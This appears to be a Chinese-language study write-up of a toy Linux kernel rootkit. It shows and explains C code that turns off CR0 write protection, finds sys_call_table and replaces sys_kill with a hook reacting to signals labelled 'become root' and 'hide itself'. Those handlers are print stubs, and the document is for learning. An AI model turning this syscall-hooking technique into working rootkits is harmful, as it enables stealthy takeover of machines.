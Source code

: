 ## Overview：toy1的工作原理
这里简要过一遍流程，以便阅读后续内容和toy1源码时方便理解。

具体来说，toy1采用了hook的方式工作，这里简要介绍这边的hook是什么意思。

toy1通过内核函数kallsyms_lookup_name找到sys_call_table，而sys_call_table是一个存放了很多很多系统调用地址的数组，参考下文：

```C
#undef __NR_syscalls
#define __NR_syscalls 451

/*
 * 32 bit systems traditionally used different
 * syscalls for off_t and loff_t arguments, while
 * 64 bit systems only need the off_t version.
 * For new 32 bit platforms, there is no need to
 * implement the old 32 bit off_t syscalls, so
 * they take different names.
 * Here we map the numbers so that both versions
 * use the same syscall table layout.
 */
```
摘自https://elixir.bootlin.com/linux/latest/source/include/uapi/asm-generic/unistd.h#L890。

特别的，toy1利用了sys_kill函数，其函数地址存放在sys_call_table[__NR_kill]之中。toy1将修改这个函数地址指向别处（比如我们自己定义的hack_kill）函数，在完成了我们自己定义的部分功能后，再正常执行原本sys_kill的功能，这样加装该rootkit后，至少在功能上不会出现太大的问题。

这便是全部的流程，下面对各个细节做简要的解释。

## 修改syscall table内容
x86架构下，syscall_table对应的内存受到了系统的保护。寄存器CR0被设置以保护内存，因此需flip其第16位数据以使得内存不再受到保护。

https://jm33.me/we-can-no-longer-easily-disable-cr0-wp-write-protection.html

具体代码如下，利用inline assembly来解除寄存器cr0对内存的保护。可以参考这个文档：

https://gcc.gnu.org/onlinedocs/gcc/Extended-Asm.html
```
"mov %0, %%cr0": "+r"(val), "+m"(__force_order));
```
该行表示以read+write的方式将val的内容以%0的方式借代，并赋值给cr0寄存器，并将值同时存放到__force_order对应的内存地址之中。注释中已经点名，之所以这么做是防止reorder时编译器的读写优化，因此找一个dummy memory position存放。

val的赋值仅需了解cr0的第十六位在翻转即可，该段代码解析完成。
```C
static inline void write_cr0_forced(unsigned long val) {
    unsigned long __force_order;

    asm volatile(
        "mov %0, %%cr0"
        : "+r"(val), "+m"(__force_order));
    // prevent read from being reordered with respect to writes, use a dummy operand.
}

// the 16th bit of cr0 should be flipped if we want to change the memory info. 
static void unprotect_memory(void) {
    write_cr0_forced(read_cr0() & (~ 0x10000));
    printk(KERN_INFO "protected memory\n");
}

static void protect_memory(void) {
    write_cr0_forced(read_cr0() | (0x10000));
    printk(KERN_INFO "protected memory\n");
}
```
以此，我们能够进行对sys_call_table中的内容进行修改。

## 一些版本限定：
本次对于开发版本做了部分限定。在这里定义了部分宏来帮忙处理此事。
```C
#ifdef CONFIG_X86_64

#if LINUX_VERSION_CODE >= KERNEL_VERSION(4, 17, 0)
#define PTREGS_SYSCALL_STUB 1
typedef asmlinkage long (*ptregs_t)(const struct pt_regs *regs);
static ptregs_t orig_kill;
#else
typedef asmlinkage long (*orig_kill_t)(pid_t pid, int sig);
static orig_kill_t orig_kill;
#endif
#endif
```
假定开发环境为X86_64，且需判断kernel版本和4.17.0之间的大小关系。参考内容：

https://www.kernel.org/doc/html/v4.17/process/adding-syscalls.html

在这则post提到高版本内核在pt_regs中存放了相关的寄存器信息，且内核模块不能直接使用系统调用函数，如果需要调用需要参阅这个资料来检查寄存器的使用情况，特别的，toy1中盗用的是sys_kill函数。

https://syscalls64.paolostivanin.com/

而低版本则可以直接盗取相关参数直接运行函数，因此分情况讨论之。当然，这个我们后续再说。

在不同版本下分别用typedef定义了两个函数，实际上这就是我们替换sys_kill事先准备好的函数指针，可以看到后面的参数和我们先前提到的不同版本是呼应的。

## 找到syscall_table的位置以便调用
```C 
static unsigned long *get_syscall_table(void) {
    unsigned long * syscall_table;
    #if LINUX_VERSION_CODE > KERNEL_VERSION(4, 4, 0)
        syscall_table = (unsigned long *) kallsyms_lookup_name("sys_call_table");
    #else
        syscall_table = NULL;
    #endif

    return syscall_table;
}
```
这一部分代码是在前一版toy1中出现的，利用kallsyms_lookup_name内核函数找到了syscall_table的地址。
## hook操作
简要介绍一下hook函数的功能，其替换了sys_call_table中原本存放sys_kill系统调用位置的地址为我们自定义的函数hack_kill，这样，若接下来系统出现了sys_kill函数的系统调用，系统将会执行hack_kill。

与此同时，利用了store函数存放原本sys_kill函数的地址，以便sys_kill可以正常地执行。
```C
static int hook(void) {
    __sys_call_table[__NR_kill] = (unsigned long) &hack_kill;
    return 0;
}

static int store(void) {
    #if PTREGS_SYSCALL_STUB
        orig_kill = (ptregs_t)__sys_call_table[__NR_kill];
        printk(KERN_INFO "orig_kill table entry successfully stored\n");
    #else
        orig_kill = (orig_kill_t)__sys_call_table[__NR_kill];
        printk(KERN_INFO "orig_kill table entry successfully stored\n");
    #endif

    return 0;
}
```
## hack_kill自定义
此处我们简要解释hack_kill自定义函数。

注意到平常我们需要终止一个进程会采用类似于'kill -9 <pid>'之类的命令，而这个9，恰好是sys_kill中的sig，即信号部分（9代表SIGKILL）。因此hack_kill的工作就很明了了，若信号64或者63存在，捕获可能存在的信号并输出（这是hook帮助我们实现的自定义部分），最后执行原本的正常的sys_kill就可以了。

依照软件安全原理所述：出毛病最好不让你发现功能失效了，因此最后一步调用正常的sys_kill是相当自然的。
```C
enum signals {
    SIGSUPER = 64, // we just take this as an example.
    SIGINVIS = 63,
};

#if PTREGS_SYSCALL_STUB

static asmlinkage long hack_kill(const struct pt_regs *regs) {
    int sig = regs->si;

    if (sig == SIGSUPER) {
        printk(KERN_INFO "signal: %d == SIGSUPER: %d | become root\n", sig, SIGSUPER);
        return 0;
    } else if (sig == SIGINVIS) {
        printk(KERN_INFO "signal: %d == SIGINVIS: %d | hide itself/malware/etc\n", sig, SIGINVIS);
    }

    printk(KERN_INFO "======= hacked kill syscall =========");
    return orig_kill(regs);
}

#else

static asmlinkage long hack_kill(pid_t pid, int sig) {

    if (sig == SIGSUPER) {
        printk(KERN_INFO "signal: %d == SIGSUPER: %d | become root\n", sig, SIGSUPER);
        return 0;
    } else if (sig == SIGINVIS) {
        printk(KERN_INFO "signal: %d == SIGINVIS: %d | hide itself/malware/etc\n", sig, SIGINVIS);
    }
    printk(KERN_INFO "======= hacked kill syscall =========");
    return orig_kill(pid, sig);
}

#endif
```
## 其他思路：
py昨晚和我说了他的思路，他觉得'insmod rmmod'这样有点dinner，因此他打算能够在启动的时候修改进程文件的ELF，以此腾出空间注入自定义恶意代码。

rootkit的hook思路介绍完毕，大家可以利用toy1在适当的环境下玩耍了。我要开始看第二个toy了。